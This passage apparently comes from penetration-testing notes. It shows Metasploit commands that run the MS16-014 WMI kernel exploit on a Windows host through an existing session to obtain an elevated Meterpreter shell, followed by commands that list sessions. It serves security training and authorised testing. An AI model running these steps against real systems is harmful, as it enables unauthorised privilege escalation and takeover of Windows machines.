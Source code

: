 - `e.g.` [Windows WMI Receive Notification Exploit - ms16_014_wmi_recv_notif](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_014_wmi_recv_notif/)
  - *This module exploits an uninitialized stack variable in the WMI subsystem of ntoskrnl*

```bash
use exploit/windows/local/ms16_014_wmi_recv_notif
set SESSION 7
set LPORT 4422
exploit
```

![Metasploit ms16_014_wmi_recv_notif](.gitbook/assets/image-20230315163942198.png)

![Privileged Meterpreter Success](.gitbook/assets/image-20230315164013534.png)

- By using a kernel exploit for this specific version of Windows O.S., the attacker is able to get a `meterpreter` session with **elevated privileges.**

```bash
background
sessions
```

![Current sessions](.gitbook/assets/image-20230315164442277.png)
